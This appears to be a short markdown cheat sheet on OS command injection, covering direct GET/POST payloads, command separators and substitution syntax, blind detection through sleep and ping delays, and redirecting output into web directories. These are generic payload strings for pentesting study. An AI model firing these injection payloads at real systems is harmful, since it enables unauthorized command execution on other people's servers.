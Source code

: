 

# summary:
* [zero proctection](#zero-proctection)
* [zero proctection with multiple parameter](#zero-proctection-with-multiple-parameter)
* [blind injection with time delay](#blind-injection-with-time-delay)
* [blind injection with redirection](#blind-injection-with-redirection)
* [source](#source)


# zero proctection

Usually you can inject the payload in the vulnerable field directly :

```
With GET request
/?myparam=CMD

With POST request play with burp or write a script.
myparam=CMD

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windows),...


# zero proctection with multiple parameter

You can try to escape/add a command to the previous argument : 

```
 && CMD &&
 & CMD & 
 ;CMD;
 |CMD|
 ||CMD|| 

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windows),...


To perform command injection on linux system you can use also backticks or dollar character :
```
`CMD` 
$(CMD)

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windows),...


We can also use # caracter to comment out what is following our command.<br>
ex: <br>
23 && ls #   => everything which follow # will not be executed <br>

# blind injection with time delay


In some case you will not receive the output of your command, in this case you can try to play with command involving time.<br>
You can use command like :<br>
"sleep 5" => sleep 5 second <br>
or <br>
"ping -c 20 127.0.0.1" : send 20 icmp packets to the loopback address<br>


# blind injection with redirection

redirect command out in a directory that you have read/write access.<br>
You can try default directory like: <br>
/var/www/html <br>
or try to find files,pictures and find if there are absolute path (these directories should have read/write permission)


# source

https://portswigger.net/web-security/os-command-injection
